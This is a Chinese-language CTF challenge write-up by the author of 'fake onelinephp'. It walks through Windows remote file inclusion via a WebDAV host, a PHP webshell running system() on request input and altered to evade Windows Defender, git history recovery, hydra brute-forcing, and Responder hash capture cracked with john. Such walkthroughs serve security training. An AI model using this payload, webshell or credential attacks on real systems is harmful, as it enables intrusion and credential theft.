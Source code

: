 ### fake onelinephp

> 出题人：w1nd
> 考察点：windows远程文件包含 + 稍微免杀 + windows密码爆破

首先很抱歉题目开赛的时候就挂了，有的地方配置失误以及没想到请求量这么大，给师傅们谢罪了orz
题目做法设计的挺开放的，看师傅们做题过程也是十分有趣-w-

打开题目就是orange的one-line-php，这里的目的只是为了给一个文件包含的点，原题预期解的话是需要知道临时文件路径的，（不过真有师傅找到了orz

因为xx云会封smb，所以题目服务器开了webclient，启动一个webdav server，远程文件包含rce，payload:`http://fakeonelinephp.d3ctf.io/?orange=\\xx.xx.xx.xx\webdav\shell.php`
(看wp有的队伍用smb也成功了，emmm挠头.jpg

在远程文件包含的时候因为有windows defender会杀，所以要对shell稍微做一下免杀，免杀的方法很多，举个例子
```php
@<?php
system(file_get_contents("php://input"));?>
```
~~吐槽：师傅们高强度传马导致windows defender成为了服务器上CPU占用率最高的进程~~

进去发现web目录下只有index.php，webdav目录和.git目录，webdav是空的，只是想提示一下开了webclient，所以就剩下.git了。此处考察git使用，大黑阔们日常使用的git hack只能恢复出naive，用`git reflog` + `git reset` 恢复出~~两篇浮生日记~~hint2.txt和dict.txt
从0ops师傅那里学到了一个工具，能够直接恢复出来 https://github.com/gakki429/Git_Extract

hin2.txt
![](https://i.imgur.com/gXEQLrK.png)
dict.txt
![](https://i.imgur.com/WNWNRpe.png)

hint2.txt给出了flag的位置，在内网的机器上，给了密码字典，爆破一下就能拿到明文了，这一步也没有说什么唯一解，所以把几种解法都贴一下：

1. 丢hydra上去爆破
2. 转发出来爆破

看到师傅们基本都是前两种方法，其实在出题的时候想过限制爆破，但是多个队用的是同一套环境，有人搅屎的话就很蛋疼了，所以作罢

3. 拿hash用john爆破

这种方法毕竟动静比较小嘛

找个工具接收一下hash `python2 Responder.py -I eth0 -f`
![](https://i.imgur.com/et06TEx.png)
然后丢给john爆破一下就出来了
![](https://i.imgur.com/K0RCSAy.png)

有密码了rdp或者net use都可以啦

![](https://i.imgur.com/hr0yGi7.png)

Others：
在看wp的时候发现
![](https://i.imgur.com/2Jn7lDx.png)
这是因为前面做出来的队没有删ipc链接
其实我看到很多队伍传上来的工具都故意没有删，比如hydra，打包好的html.zip
不过感觉这样不太好，会对选手做题产生一些影响，比如有的师傅被假的html.zip骗了，，